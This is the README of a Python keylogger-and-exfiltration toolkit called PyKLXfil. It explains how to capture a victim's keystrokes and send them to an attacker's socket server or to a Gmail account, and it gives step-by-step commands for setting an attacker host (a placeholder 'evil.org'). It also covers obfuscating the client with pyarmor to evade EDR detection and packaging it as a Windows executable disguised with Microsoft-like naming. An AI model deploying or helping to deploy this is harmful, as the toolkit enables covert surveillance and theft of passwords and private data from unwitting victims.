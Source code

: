 # PyKLXfil: Python Keylogger and Exfiltrator.
## The toolset contains four main tools:
* PyKLXfil-Server: a socket server to recieve the exfiltrated data from a victem.
* PyKLXfil-Client: the agent that will perform the encoded key logging with a custome base64 table and the exfiltration of data back to PyKLXfil-Server.
* PyKLXfil-Client-mail: a standalone agent that will perform encoded key logging with a custome base64 table and exfiltration to a gmail email account (more stealthy).
* PyKLXfil-Decoder: a tool to decode the key logs.
## Install:
```sh
  git clone https://github.com/iD4rksid3/PyKLXfil.git
  cd PyKLXfil
  #The tool requires only two external modules: yagmail and pynput
  pip3 install -r requirements.txt
  ```
## Usage:
* Key logging and exfiltration using socket server and client:
```sh
#start listening on all NICs and on port 443 as background job
python3 PyKLXfil-Server.py 0.0.0.0 443 &
```
** Compile and obfuscate the python client for a windows machine:
```sh
#Edit PyKLXfil-Client.py and add your server's IP/domain and port
 nano PyKLXfil-Client.py
 #snip...       
 #self.host = 'evil.org'
 #self.port = 4444
 ```
 ** Optionally you can obfuscate the script with [pyarmor](https://github.com/dashingsoft/pyarmor) to make it less detectable by EDRs:
 ```sh
 pip3 install pyarmor
 pip3 install pyinstaller
 pyarmor pack --clean -e "--onefile -w -i ms.ico --hidden-import=pynput.keyboard._win32 --hidden-import=pynput.mouse._win32" PyKLXfil-Client.py -n mscc.exe
 ```
 ** Compile the script to exe using pyinstaller:
```sh
pyinstaller --onefile -w -i ms.ico --hidden-import=pynput.keyboard._win32 --hidden-import=pynput.mouse._win32 -n mscc.exe PyKLXfil-Client.py
```
* Key logging and exfiltration using gmail (more stealthy):
** Compile and obfuscate the python gmail client for a windows machine (stand alone):
*** Note: you will first need to get app password token to be used in the script, a good guide can be found [here](https://towardsdatascience.com/automate-sending-emails-with-gmail-in-python-449cc0c3c317)
```sh
nano PyKLXfil-Client-mail.py
 #snip...       
  #user = 'example@gmail.com'
  #app_password = 'qweertyuiop12345678'
  #to = 'example@gmail.com'
```
** Optionally you can obfuscate the script with [pyarmor](https://github.com/dashingsoft/pyarmor) to make it less detectable by EDRs:
 ```sh
 pip3 install pyarmor
 pip3 install pyinstaller
 pyarmor pack --clean -e "--onefile -w -i ms.ico --hidden-import=pynput.keyboard._win32 --hidden-import=pynput.mouse._win32" PyKLXfil-Client-mail.py -n mscc.exe
 ```

